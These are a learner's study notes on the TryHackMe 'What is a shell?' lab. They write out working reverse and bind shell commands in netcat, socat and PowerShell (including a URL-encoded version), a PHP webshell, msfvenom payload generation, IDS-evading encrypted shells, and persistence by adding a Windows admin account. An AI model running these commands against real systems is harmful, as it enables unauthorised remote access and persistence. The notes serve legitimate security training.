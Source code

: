 ```yaml
---

# What is a shell? - Try Hack Me room

---
```


## Objective 

- An introduction to sending and receiving (reverse/bind) shells when exploiting target machines

**Shells** 
- are what we use when interfacing with a Command Line environment (CLI).
- the common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows.
- When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code.
- When this happens, we want to use this initial access to obtain a shell running on the target.

**In simple terms, we can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).**

---

<details>
<summary>Tools</summary>

- variety of tools we can use to receive reverse shells and to send bind shells
- we need malicious shell code and a way of interfacing with the resulting shell

---

## Netcat 

- used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration
- but more importantly it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system
- Netcat shells are very unstable (easy to lose) by default
- but can be improved by techniques

---

## Socat

- like netcat on steroids
- can do all the same things and many more
- socat shells usually more stable than netcat shells out of the box
- so in this sense its superior to netcat but there are 2 big catches:
1. the syntax is more difficult
2. netcat is installed on virtually every Linux distribution by default, socrat rarely installed by default

- Both Socat and Netcat have .exe versions for use on Windows

---

## Metasploit -- multi/handler

- `exploit/multi/handler` module of metasploit used to receive reverse shells
- part of the Metasploit framework so multi/handler provides fully-fledged way to obtain stable shells
- with a wide variety of options to improve the caught shell
- also the only way to interact with a meterpreter shell
- easiest way to handle staged payloads

---

## Msfvenom 

- technically part of the Metasploit Framework but it is shipped as a standalone tool
- Msfvenom is used to generate payloads on the fly
- msfvenom can generate payloads other than reverse and bind shells

---

- there are some repositories of shells in many different languages
- most prominent of these is Payloads all the Things.
- PentestMonkey Reverse Shell Cheatsheet is also commonly used
- Kali Linux also comes pre-installed with a variety of webshells located at `/usr/share/webshells`
- SecLists repo, though primarily used for wordlists, also contains some very useful code for obtaining shells

</details>

<details>
<summary>Types of Shell</summary>

- At a high level, we are interested in two kinds of shell when it comes to exploiting a target

**reverse shells**

- when the target is forced to execute code that connects back to your computer
- On our computer we would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection
- reverse shells =  good way to bypass firewall rules that may prevent us from connecting to arbitrary ports on the target
- but when receiving a shell from a machine across the internet, we would need to configure our own network to accept the shell
- not a problem on TryHackMe network due to the method by which we connect into the network

**Bind shells**

- when the code executed on the target is used to start a listener attached to a shell directly on the target
- then be opened up to the internet -> so can connect to the port that the code has opened and obtain remote code execution that way
-  has the advantage of not requiring any configuration on our own network
- but may be prevented by firewalls protecting the target

**generally reverse shells are easier to execute and debug**

---

## Reverse shell example:


- left = reverse shell listener -> this is what receives the connection
- right = simulation of sending reverse shell
- more likely to be done through code injection on remote websites
- think of the left being our computer and right being the target

<img width="1051" height="156" alt="image" src="https://github.com/user-attachments/assets/d516d053-93f8-45e9-b824-15daeaf9603e" />

-> attacking machine: `sudo nc -lvnp 443`(run listener)

-> target: `nc <LOCAL-IP> <PORT> -e /bin/bash`(netcat)

- after running command on right, listener recevies a connection
- when `whoami` is run -> we see we are executing commands as the target user
- **we are listening on our own attacking machine and sending a connection from the target**

---

## Bind shell example:

- left = attacker's computer
- right = stimulated target
- windoes target this time
- first start listener on target -> this time also telling it execute `cmd.exe`
- then with listener up and running - connect from our own machine to newly opened port


<img width="1327" height="207" alt="image" src="https://github.com/user-attachments/assets/2c291ff5-a824-4806-bc9f-5b36d617b7e3" />


-> on the target: `nc -lvnp <port> -e "cmd.exe"`

-> on attacking machine: `nc MACHINE_IP <port>`

- gives us code execution on the remote machine. Note -> not specific to Windows

---

## Interactivity 

- Shells can be either interactive or non-interactive

**Interactive shell**

- Powershell, Bash, Zsh, sh, or any other standard CLI environment
- these allows us to interact with programs after executing them
- example take SSH login prompt:

<img width="621" height="82" alt="image" src="https://github.com/user-attachments/assets/75a18e31-7bbf-4ba1-b224-a9a24c2113be" />

- can see it's asking interactively that the user type either yes or no in order to contiue connection
- this is an interactive program, which requires an interactive shell in order to run

**Non-interactive shell**

- limited to using programs which do not require user interaction in order to run properly
- majority of simple reverse and bind shells are non-interactive -> can make further exploitation trickier
- run SSH in a non-interactive shell:

<img width="492" height="210" alt="image" src="https://github.com/user-attachments/assets/fe5431d8-70f8-477c-8611-e9dcb51f248c" />

- `whoami` command (which is non-interactive) executes perfectly
- `ssh` command (which is interactive) gives us no output at all
- output of an interactive command does go somewhere but figuring out where is an exercise for you to attempt on your own

**interactive programs do not work in non-interactive shells**

- `listener` command is an alias unique to the attacking machine used for demonstrations
- it's shorthand way of typing `sudo rlwrap nc -lvnp 443`
- will not work on any other machine unless the alias has been configured locally

--- 

<img width="477" height="137" alt="image" src="https://github.com/user-attachments/assets/af519399-002f-4cc6-afd7-9e9020d57748" />

</details>

<details>
<summary>Netcat</summary>

## Reverse shells

- reverse shells require shellcode and a listener
- many ways to execute a shell so we'll start by looking at listeners

- syntax for starting netcat listener using linux: `nc -lvnp <port-number>`

   - `-l` tell netcat that this will be a listener
   - `-v` request verbose output
   - `-n` tells netcat not to resolve host names or use DNS
   - `-p` indicates the port specification will follow  

- realistically cab use any port we like as long as there isn't already a service using it
- if we choose a port beow 1024 will need to use `sudo` when starting listener
- good idea to use well known port (80, 443 or 53 being good choices) -> more likely to get past outbound firewall rules on the target

-> working example = `sudo nc -lvnp 443`

- can then connect back to this with any number of payloads depending on environment on the target  - example in previous task

## Bind shells 

- if looking to obtain a bind shell on target we can assume that there is already a listener waiting fod us on choosen port of the target - all we need to do is connect to it
- syntax = `nc <target-ip> <chosen-port>`
- here we are using netcat to make an outbound connection to the target on our chosen port
- here it is important to understand how to connect to a listening port using netcat

--- 

<img width="479" height="91" alt="image" src="https://github.com/user-attachments/assets/0f7c34f2-0d89-4423-afd7-7668fb109171" />

</details>

<details>
<summary>Netcat shell Stabilisation</summary>

- we have caught or connected to a netcat shell, what's next?
- these shells are unstable by default
- ctrl+c = kills the whole thing
- non-interactive and often have formatting errors -> due to netcat "shells" really being processes running inside a terminal rather (rather than being bonafide terminals in their own right)
- there are many ways to stabilise netcat shells on Linux systems
- Stabilisation of Windows reverse shells = harder

---

## Technique 1: Python

- applicable only to Linux boxes as nearly always by default have python installed
- 3 stage process:

1. use `python -c 'import pty;pty.spawn("/bin/bash")'`

     - this uses python to spawn a better feature bash shell.
     - some targets may need the version of Python specified (if so replace `python` with `python2`, `python3` etc.)
     - rn our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell

2. `export TERM=xterm` -> gives us access to term commands like `clear`
3. background the shell using Ctrl + Z

     -  Back in our own terminal we use `stty raw -echo; fg`
     -  this turns off our own terminal echo (gives us access to tab autocompletes, arrow keys, ctrl+c to kill processes)
     -  then foregrounds the shell -> completing the process
  
<img width="664" height="385" alt="image" src="https://github.com/user-attachments/assets/4b1069cc-7d52-456e-9938-5a4d908ea6d4" />

- if shell dies, any input in our own terminal will not be visible (result of having disabled terminal echo). fix this -> type reset and press enter.

---

## Technique 2: rlwrap

- rlwrap -> program that gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell
- but some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell
- rlwrap not installed by default on Kali, so first install it with `sudo apt install rlwrap`

-> To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`

- prepending our netcat listener with "rlwrap" -> gives more fully featured shell
- technique is useful when dealing with Windows shells -> otherwise notoriously difficult to stabilise
- when dealing with Linux target it's possible to comepletely stabilise by using same trick in step 3 of previous technique
- background with ctrl+z then using `stty raw -echo; fg` to stabilise and re-enter the shell

---

## Technique 3: Socat

- use an initial netcat shell as a stepping stone into a more fully-featured socat shell
- this technique is limited to Linux targets (Socat shell on Windows will be no more stable than a netcat shell)



- first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine.
- typical way to achieve this -> using a webserver on the attacking machine inside the directory containing your socat binary `sudo python3 -m http.server 80`
- then on target machine using netcat shell to download the file - on linux accomplished with curl or wget: `wget <LOCAL-IP>/socat -O /tmp/socat`



- for sake of completeness: in windows CLI environment same can be done with powershell using either Invoke-WebRequest or a webrequest system class
- depending on version of powershell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`
- will cover syntax for sending and receiving shells with Socat in upcoming tasks

---

- with any of above techniques useful to be able to change terminal tty size
- this is something your terminal will do automatically when using a regualar shell but must be done manually in a reverse or bind shell if we want something like a text editor -> overwrites everything on the screen

-> first open another terminal and run `stty -a` - will give us large stream of output - note values for "rows" and columns


<img width="995" height="65" alt="image" src="https://github.com/user-attachments/assets/25524b25-66f5-496a-b506-b3906d0e0269" />

- next in reverse/bind shell type: `stty rows <number>` and `stty cols <number>`
- Filling in the numbers we got from running the command in our own terminal
- will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open

---


<img width="477" height="107" alt="image" src="https://github.com/user-attachments/assets/8c76d132-49eb-4c4a-9ac6-2f7f14b8360c" />

</details>

<details>
<summary>Socat</summary>

- a connector between two points
- this essentially be a listening port and the keyboard but it could also be a listening port and a file, or indeed, two listening ports
- All socat does is provide a link between two points

## Reverse shells 

- syntax for a basic reverse shell listener in socat: `socat TCP-L:<port> -`
- always with socat, this is taking two points (a listening port, and standard input) and connecting them together
- resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`

On Windows use to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

- The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output

equivalent command for a Linux Target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

---

## Bind shells

-  Linux target we would use: `socat TCP-L:<PORT> EXEC:"bash -li"`
-  Windows target we would use `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
-  use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment

-> regardless of the target, we use this command on our attacking machine to connect to the waiting listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

---

## one of the more powerful uses for Socat: a fully stable Linux tty reverse shell

- only work when the target is Linux, but is significantly more stable
- new listener syntax: `socat TCP-L:<port> FILE:`tty`,raw,echo=0`

   -  we're connecting two points together
   -  this case -> listening port and a file
   -  we are passing in the current TTY as a file and setting the echo to be zero
   -  approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.
 
- first listener can be connected to with any payload but this special listener must be activated with a very specific socat command
- means the target must have socat installed
- most machines do not have socat installed by default but it's possible to upload precompiled socat binary -> can then be executed as normal

   - special command: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
       
        - first part -- we're linking up with the listener running on our own machine
        - second part of the command creates an interactive bash session with `EXEC:"bash -li"`

- also passing the arguments: pty, stderr, sigint, setsid and sane:

   - **pty** allocates a pseudoterminal on the target -- part of the stabilisation process
   - **stderr** makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
   - **sigint** passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
   - **setsid** creates the process in a new session
   - **sane** stabilises the terminal, attempting to "normalise" it
 
  <img width="1247" height="173" alt="image" src="https://github.com/user-attachments/assets/2c9367f3-ad9b-45a1-acf2-182020b86165" />

- left = listener running on local attacking machine
- right = have simulation of a compromised target running with a non interactive shell
- using non-interactive netcat shell we execute the special socat command and receive fully interactive bash shell on the socat listener to the left
- socat shell is fully interactive, allowing us to use interactive commands such as SSH.
- can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

---

- if any point socat shell not working correctly worth increasing verbosity by adding `-d -d` into command
- very useful for experimental purposes but not usually necessary for general use

---

<img width="476" height="68" alt="image" src="https://github.com/user-attachments/assets/3d571a29-6f30-4031-b80d-44aeefd93a17" />


</details>

<details>
<summary>Socat Encrypted Shells</summary>

- socat capable of creating encrypted shells -- both bind and reverse
- encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result
- in previous task any time `TCP` was used as part of a command should be replaced with `OPENSSL` when working with encrypted shells

->  first need to generate a certificate in order to use encrypted shells easiest to do on our attacking machine:

     openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

- command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year
-  it will ask you to fill in information about the certificate -> can be left blank or filled randomly

-> then need to merge the two created files into a single `.pem` file:

    cat shell.key shell.crt > shell.pem

-> then  we set up our reverse shell listener

    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

- This sets up an OPENSSL listener using our generated certificate
- `verify=0`
- tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority
- note that the certificate must be used on whichever device is listening.

-> To connect back

     socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

-> target:

     socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

-> attacker:

     socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -

-  note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required
- following image shows an OPENSSL Reverse shell from a Linux target
- target = right attacker = left:

<img width="1852" height="704" alt="image" src="https://github.com/user-attachments/assets/a131be7e-6785-4f2e-bea4-377da76e20c0" />

-  technique will also work with the special, Linux-only TTY shell covered in the previous task
-  figuring out the syntax for this will be the challenge for this task

--- 

<img width="479" height="106" alt="image" src="https://github.com/user-attachments/assets/745b4702-e85e-4164-9f18-e79c18599521" />

</details>

<details>
<summary>Common Shell Payloads</summary>

- take a look at some common payloads using the tools we've already covered

---

## ways to use netcat as a listener for a bindshrll 

- in some version of netcat (including `nc.exe` windows version included with kali at `/usr/share/windows-resources/binaries` and the version used in kali itself: `netcat-traditional`)
- `-e` allows us to execute a process on connection
- e.g. as a listener:

    nc -lvnp <PORT> -e /bin/bash


- connecting to above listener with netcat results in bind shell on the target
- for reverse shell connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` = results in reverse shell on the target

- but this is not included in most versions of netcat as it's seen to be insecure

-> on windows where static binary nearly always required anyway this technique works perfectly 

- linux we would instead use this code to create listener for a bind shell

      mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f


<img width="1228" height="121" alt="image" src="https://github.com/user-attachments/assets/be401a6a-58b6-4b27-a2a7-130cef923a85" />

- similar command can be used to send netcat reverse shell

       mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

<img width="439" height="77" alt="image" src="https://github.com/user-attachments/assets/caec41fd-0865-40aa-a2c9-ab0afecf7b87" />

- uses the netcat connect syntax as opposed to netcat listen syntax


<img width="1407" height="150" alt="image" src="https://github.com/user-attachments/assets/22dbb846-be92-463c-bee2-63f5e29291da" />

---

- when targeting a modern Windows Server it's very common to require a Powershell reverse shell
- we will cover the standard one-liner PSH reverse shell here

      powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)

- this command (once putting IP and port)  can be copied into cmd.exe shell (or another method of executing commands on a window server such as a webshell) and executed resulting in reverse shell:

<img width="1008" height="310" alt="image" src="https://github.com/user-attachments/assets/7a908df5-8e9f-49a5-9dc5-a75e3176672b" />

---

-  PayloadsAllTheThings is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting)
-  in many different languages

---

<img width="428" height="141" alt="image" src="https://github.com/user-attachments/assets/447035aa-2f73-4790-bbde-bfcf8816ff8b" />

</details>

<details>
<summary>msfvenom</summary>

**Msfvenom: the one-stop-shop for all things payload related.**

- part of metasploit framework
- msfvenom -> used to generate code for primarily reverse and bind shells
- used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit
- can be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`)

-> standard syntax for msfvenom

      msfvenom -p <PAYLOAD> <OPTIONS>


-> example 
- to generate windows x64 reverse shell in an exe format we can use:

     msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>


<img width="852" height="124" alt="image" src="https://github.com/user-attachments/assets/98609a04-8745-4f7a-861b-9eb66cf43783" />

-> here we are using a payload and four options

- -f (format)

   - specifies the output format - this case it's an executable (exe)

- -o (file)

   - output location and filename for generated payload
 
- LHOST= IP

   - specifies IP to connect back to. when using THM this is our tun0 IP address, if unable to load link then we are not connected to the vpn
 

- LPORT= port

    - port on local machine to connect back to. can be anything between 0 and 65535 that's not already in use. ports below 1024 are restricted and require a listener running with root privileges
 

  ---

  ## Staged vs Stageless

- there are staged reverse shell payloads and stageless reverse shell payloads

**staged payloads**

- sent in 2 parts. first small stager then main payload is fetched loaded into memory
- piece of code executed directly on server itself.
- connects back to waiting listener - doesn't contain any reverse shell code by itself.
- it connects to the listener and uses the connection to load real payload - executing it directly preventing it from touching the disk (where it could be caught by traditional anti virus solutions)
- so payload is split into 2 parts - small initial stager then bulkier reverse shell code (downloaded when stager is activated)
- staged payloads require special listener - usually metasploit multi/handler

**stageless payloads**

- more common
- are entirely self-contained -> there is one pieve of code that when executed sends a shell back immediately to waiting listener

---

stageless payloads tend to be easier to use and catch 
but are also bulkier and easier for antivirus or intrusion detection program to discover and remove 
staged = harder to use but initial stager is a lot shorter snd sometimes missed by less-effective antivirus software 
some  antivirus solutions make use of Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager -> making staged payloads less effective than they would once have been in this area

---

## Meterpreter 

- Meterpreter shells are Metasploit's own brand of fully-featured shell
- are completely stable = very good thing when working with Windows targets
- also have a lot of inbuilt functionality

      - like file uploads and downloads

- want to use any of Metasploit's post-exploitation tools = need to use a meterpreter shell
- downside = must be caught in Metasploit

---

## Payload naming conventions 

- with msfvenom it's important to understand how naming system works 

-> basic convention is: 

     <OS>/<arch>/<payload>

-> for example:

      linux/x86/shell_reverse_tcp

- this would generate a stageless reverse shell for an x86 Linux target
- the arch is not specified for windows 32bit targets e.g.

      windows/shell_reverse_tcp

- for 64bit windows target arch would be specified (x64)
- `shell_reverse_tcp` -> indicates it's stageless payload
- b/c stageless payloads are denoted with underscores (`_`)

-> staged payloads denoted with another `/`

      shell/reverse_tcp

- rule also applies to meterpreter payloads


-> windows 64bit staged meterpreter:

        windows/x64/meterpreter/reverse_tcp

-> linux 32bit stageless meterpreter payload:

        linux/x86/meterpreter_reverse_tcp

---

      msfvenom --list payloads 

- can be used to list all available payloads
- can then be piped into `grep` to search for specific of payloads

<img width="1320" height="254" alt="image" src="https://github.com/user-attachments/assets/0c1c151d-c705-48b4-a2de-589c50ffd14b" />

- gives us full set of Linux meterpreter payloads for 32bit targets

---

<img width="842" height="152" alt="image" src="https://github.com/user-attachments/assets/9d8e1555-bf4f-4633-b043-841a3d1e3fb5" />

</details>

<details>
<summary>Metasploit multi/handler</summary>

- multi/handler = tool for catching reverse shells
- essential if want to use meterpreter shells
- the go-to whne using staged payloads

1. open metasploit `mfsconsole`
2. type `use multi/handler` and press enter

- now are primed to start multi/handler session
- `options` can look at available options

<img width="719" height="384" alt="image" src="https://github.com/user-attachments/assets/b76997f5-315f-4333-8e24-069f7a0adb05" />

- 3 options we must set: payload, LHOST and LPORT
- identical to the options we set when generating shellcode with msfvenom - payload specific to our target as well as listening address and port we can receive a shell with
- LHOST must be specified here b/c metasploit won't listen on all network interfaces like etcat or socat will
- must be told a specific address to listen with

-> set options with

- `set PAYLOAD` 
- `set LHOST` (listen-adress)
- `set LPORT` (listen-port)

-> should now be ready to start listener 

- using `exploit -j`
- tells metasploit to launch the module
- running as a Job in the background

<img width="750" height="663" alt="image" src="https://github.com/user-attachments/assets/339e51ca-b44b-43e6-a432-675eb45d99f0" />

- in above example = metasploit listening on port under 1024 = metasploit must run with sudo permissions
- staged payload generated in the previous is run = Metasploit receives the connection ->  sending the remainder of the payload and giving us a reverse shell:


<img width="878" height="201" alt="image" src="https://github.com/user-attachments/assets/f58410cb-a8f8-4ff1-b07a-2e9122e049bf" />

- because the multi/handler was originally backgrounded, we needed to use `sessions 1` to foreground it again
- works as it was the only session running
-  other sessions active = use `sessions` -> see all active sessions
-  then use `sessions <number>` -> to select appropriate session to foreground


---

<img width="437" height="182" alt="image" src="https://github.com/user-attachments/assets/d2093ac5-3f42-4f7e-8a0f-f21847a2cb77" />

</details>

<details>
<summary>WebShells</summary>

- we may encounter websites that allow us to upload an executable file
- we use this oppotunity to upload code that would activate a reverse or bind shell
- sometimes not possible -> instead upload webshell

-> webshell = colloquial term for a script thst runs inside a webserver (usually in PHP or ASP) -> which executes code on the server 

- essentially commands are entered into a webpage - either HTML form or directly as arguments in the URL - then are executed by the script with results returned and written on the page
- useful if there are firewalls in place or even a stepping stone into fully fledged reverse or bind shell

-> PHP = most common server side scripting language

- one line format:
 
        <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

  - this takes a GET parameter in URL and executes it on the system with `shell_exec()`
  - basically any commands we enter in the URL after `?cmd=` executed on the system - windows or linux
  - "pre" elements ensure the results are formatted correctly on the page
 
-> in action:

    <img width="899" height="473" alt="image" src="https://github.com/user-attachments/assets/271a331a-9ffa-4cca-b6f3-c5d486830b59" />

- when navigating the shell we used GET parameter "cmd" with command "ifconfig" -> this returned network info of the box
- a.k.a by entering `ifconfig` (used to check the network interfaces on Linux target) into URL of our shell it executed on the system with the results returned to us
- works for other commands like `whoami`, `hostname`, `arch` etc.

-> variety of webshells available on Kali by default at `/usr/share/webshells`

- most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers
- will not work on Windows by default

-> when target is windows often easiest to obtain RCE using a web shell or msfvenom to generate a reverse/bind shell in language of server 

- former method -> obtaining RCE is often done with a URL Encoded Powershell Reverse Shell
- would be copied into URL as 'cmd' argument:

         powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

  - same shell in task 8 but URL encoded to be used to safely in GET parameter
  - the IP and Port still need to be changed in above code


</details>

<details>
<summary>Next Steps</summary>

**We have the shell, now what?**

- covered how to generate, send and receive shells -> tend to be unstable and non-interactive

-> so what do we do about this?

## Linux 

- On Linux, gaining user-level access = usually first step. become a local user = can often escalate further from there.
- SSH keys in `/home/<user>/.ssh` are a common, high-value find — a private key lets you SSH in as that user from your machine (no password).
- In CTFs/labs, credentials (usernames/passwords, or private keys) are often left behind in files, scripts, configs, etc. Finding them can give quick access.
- Some vulnerabilities (e.g., Dirty COW) or writable system files (`/etc/passwd`, `/etc/shadow`) let us create or modify accounts -> can give SSH access if the SSH service is running.
- All of this only works = SSH actually running and reachable on the target (port 22 typically)

---
## Windows Post-Exploitation (Access & Persistence)

**credential discovery**

- registry: some applications store creds in plaintext/hashes in the registry

    - example: VNC servers often keep passwords in plaintext in the registry
 
- Config files: certain services save credentials in config files

    - FilleZilla FTP server (older versions)
 
      
        - `C:\Program Files\FileZilla Server\FileZilla Server.xml`
        - `C:\xampp\FileZilla Server\FileZilla Server.xml`
        - Depending on version → creds may be plaintext or MD5 hashes

---

**privilege goal**

- best case: obtain a shell as SYSTEM or Adminitrator account
- high privileges you can:

    - add own account (with admin right)
    - use it to connect via RDP, WinRM, SMB exec tools (`psexec`, `winexe`, etc.)

  ---

  **adding a user (persistence)**

1. create new user:

         net user <username> <password> /add

-> example:

         net user thmuser Passw0rd! /add

2. add user to the administrators group:

          net localgroup administrators <username> /add

-> example: 

         net localgroup administrators thmuser /add

---

**ways to log back in**

once account created (if the service is enabled/exposed)

- RDP (port 3389)
- WinRM (port 5985/5986)
- psexec (SMB-based remote exec)
- winexe (Linux tool for Windows command execution)
- Telnet (if running—rare in modern systems)
- Other exposed services


---

## important take away

- reverse and bind shells are essential technique for gaining remote code execution on a machine
- but they never be as fully featured as a native shell
- we always want to escalate into using a "normal" method for accessing the machine
- this will invariably be easier to use for further exploitation of the target 

</details>

<details>
<summary>Practice and Examples</summary>

- <img width="249" height="199" alt="image" src="https://github.com/user-attachments/assets/3bf4eb55-d600-4a26-9e55-b561e80e27c2" />


- <img width="251" height="281" alt="image" src="https://github.com/user-attachments/assets/8d47518c-5927-4dfb-871b-b158104b644c" />

---

- <img width="266" height="320" alt="image" src="https://github.com/user-attachments/assets/3c683b62-c334-40b6-b755-73d7e96e1402" />


- below is the exploit

<img width="377" height="125" alt="image" src="https://github.com/user-attachments/assets/64324ad9-9602-4a48-859e-213611d8c232" />

- add to desktop

<img width="398" height="430" alt="image" src="https://github.com/user-attachments/assets/0ad54f04-b41b-4407-88b5-49cba9f051e4" />

- put THM attack box IP in the reverse shell php

<img width="399" height="424" alt="image" src="https://github.com/user-attachments/assets/ca4d866b-7668-4834-820b-17db25870253" />

- now we set up netcat listener and upload and activate the shell on the Linux machine - command given in first question

<img width="287" height="29" alt="image" src="https://github.com/user-attachments/assets/cdf57d5f-7612-41ee-8392-781ce13542fb" />

- upload file (http://linuxip)

- <img width="435" height="323" alt="image" src="https://github.com/user-attachments/assets/fe346554-0d4a-4c7c-ae5d-22883a833b95" />

- <img width="435" height="323" alt="image" src="https://github.com/user-attachments/assets/3e73cbce-8fd0-4a48-9b0e-ebf082fd7c80" />

- connection received

<img width="478" height="133" alt="image" src="https://github.com/user-attachments/assets/251874ff-c2b0-4116-adfd-ce60c6f9b33b" />





- <img width="483" height="262" alt="image" src="https://github.com/user-attachments/assets/10ae52f1-c86b-4c39-9ccc-3c39bbbc2250" />

<img width="350" height="120" alt="image" src="https://github.com/user-attachments/assets/09e30165-1dec-487f-bfc4-eb81666506c1" />

<img width="468" height="325" alt="image" src="https://github.com/user-attachments/assets/b7f86e52-b1c2-4ebb-9c6f-3960a851678f" />

---

<img width="427" height="101" alt="image" src="https://github.com/user-attachments/assets/a6c3ca87-2f4c-44aa-8094-218ba2b7a782" />

<img width="472" height="432" alt="image" src="https://github.com/user-attachments/assets/fea957ad-a84e-4ebd-9beb-c78654ae1bdd" />


<img width="476" height="454" alt="image" src="https://github.com/user-attachments/assets/ef953071-3ba1-47ea-949e-084abb21b60b" />

- above is a successful piped shell

<img width="409" height="111" alt="image" src="https://github.com/user-attachments/assets/b4bb439c-8dd2-4324-a146-3569a4854040" />

<img width="245" height="328" alt="image" src="https://github.com/user-attachments/assets/e37b467e-421b-436a-aad8-015f33f6c343" />

so we have made a reverse web shell using pipe method

---

- <img width="431" height="52" alt="image" src="https://github.com/user-attachments/assets/3acb63cf-855e-414f-9e7e-261f2e884efa" />

**reverse**

<img width="479" height="269" alt="image" src="https://github.com/user-attachments/assets/76c65a7c-226f-40a2-82bf-727d5340dd45" />

- on attack box (listener)

   socat -d -d TCP-LISTEN:4444,reuseaddr,fork -

- -d -d → debug output
- TCP-LISTEN:4444 → listen on port 4444
- reuseaddr → allows quick restarts
- fork → handle multiple connections

- on target

  socat TCP:10.10.84.61:4444 EXEC:"bash -li"

- Target connects to Attackbox IP and port 4444
- Executes an interactive bash shell

**bind**

- Sometimes targets cannot connect out (reverse shell fails). You can bind on high, uncommon port, or use STDIO/PTY trick:
